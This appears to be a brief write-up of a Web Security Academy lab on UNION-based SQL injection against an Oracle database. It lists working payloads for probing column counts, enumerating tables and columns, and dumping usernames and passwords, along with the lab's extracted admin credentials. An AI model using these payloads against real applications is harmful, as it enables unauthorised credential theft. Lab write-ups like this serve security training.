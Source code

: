 SQL

Lab #10 in the SQL injection track of the Web Security Academy. This lab contains a SQL injection vulnerability in the product category field. To solve the lab, we perform a UNION based SQL injection attack on a Oracle database that retrieves the usernames and passwords of all users of the application.

Analysis
' Order By 1--
' Order By 3--  - Internal Server Error.

' UNION select 'NULL', 'NULL'--
' UNION select 'a', 'a'--
' UNION select 'a', 'a' from DUAL--

-> Oracle DB
both columns accept type text

Output the list of tables in db.
' UNION SELECT table_name, NULL FROM all_tables--

USERS_HVLIIE

Output the column names of the users table
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_HVLIIE'--

PASSWORD_FYIDRO
USERNAME_VBNBGG
Output the list of usernames/passwords

' UNION select USERNAME_VBNBGG, PASSWORD_FYIDRO from USERS_HVLIIE--

wc9fwu6pklfglynecpj4
administrator